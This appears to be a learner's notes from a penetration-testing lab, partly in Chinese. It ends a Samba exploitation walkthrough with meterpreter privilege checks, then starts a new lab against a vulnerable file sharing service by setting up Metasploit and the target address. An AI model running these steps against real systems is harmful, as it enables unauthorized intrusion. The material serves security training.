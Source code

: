 `getuid`: We can enumerate the permissions that we currently have by typing in the get user id. We have the user id of 0 (uid=0), which is the root user, which consequently means that we have the highest privileges available on the Linux target. And consequently means we don't need to elevate our privileges.

```
meterpreter > sysinfo
meterpreter > getuid
```

That is how to exploit Samba on Linux.

# Vulnerable File Sharing Service
## Overview
The target server as described below is running a vulnerable file sharing server. Your task is to fingerprint the application using command line tools available on the Kali terminal and then exploit the application using the appropriate Metasploit module. Get a shell on the target!

Instructions: 

* This lab is dedicated to you! No other users are on this network :)
* Once you start the lab, you will have access to a root terminal of a Kali instance
* Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
* The target server should be located at the IP address 192.X.Y.3.
* Do not attack the gateway located at IP address 192.X.Y.1
* postgresql is not running by default so Metasploit may give you an error about this when starting

## Solutions
The solution for this lab can be found in the following manual: https://assets.ine.com/labs/ad-manuals/walkthrough-178.pdf

## 我自己的思路
```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.59.47.2  netmask 255.255.255.0  broadcast 192.59.47.255
        ether 02:42:c0:3b:2f:02  txqueuelen 0  (Ethernet)
```

Target IP Address: 192.59.47.3

```
root@attackdefense:~# service postgresql start
[ ok ] Starting PostgreSQL 11 database server: main.
root@attackdefense:~# msfconsole -q
msf5 > workspace -a samba
[*] Added workspace: samba
[*] Workspace: samba
msf5 > setg RHOSTS 192.59.47.3
RHOSTS => 192.59.47.3
```
